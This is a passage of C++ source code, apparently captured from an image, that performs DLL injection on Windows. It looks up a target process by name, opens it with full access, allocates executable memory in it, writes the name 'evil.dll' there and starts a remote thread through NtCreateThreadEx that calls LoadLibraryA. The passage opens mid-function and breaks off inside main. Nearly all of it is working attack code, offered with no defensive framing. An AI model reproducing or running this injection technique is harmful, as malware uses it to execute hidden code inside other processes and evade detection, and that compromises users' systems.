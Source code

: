 ```cpp
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  SIZE_T rl; // return length

  char evilDll[] = "evil.dll";
  int evilLen = sizeof(evilDll) + 1;
  
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  LPTHREAD_START_ROUTINE lb = (LPTHREAD_START_ROUTINE) GetProcAddress(hKernel32, "LoadLibraryA");
  pNtCreateThreadEx ntCTEx = (pNtCreateThreadEx)GetProcAddress(GetModuleHandle("ntdll.dll"), "NtCreateThreadEx");
  
  if (ntCTEx == NULL) {
    CloseHandle(ph);
    printf("NtCreateThreadEx failed :( exiting...\n");
    return -2;
  }

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed :( exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, evilLen, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, evilDll, evilLen, rl); // NULL);

    ntCTEx(&ht, 0x1FFFFF, NULL, ph, (LPTHREAD_START_ROUTINE) lb, rb, FALSE, NULL, NULL, NULL, NULL);

    if (ht == NULL) {
      CloseHandle(ph);
      printf("ThreadHandle failed :( exiting...\n");
      return -2;
    } else {
      printf("successfully inject via NtCreateThreadEx :)\n");
    }
    
    WaitForSingleObject(ht, INFINITE);

```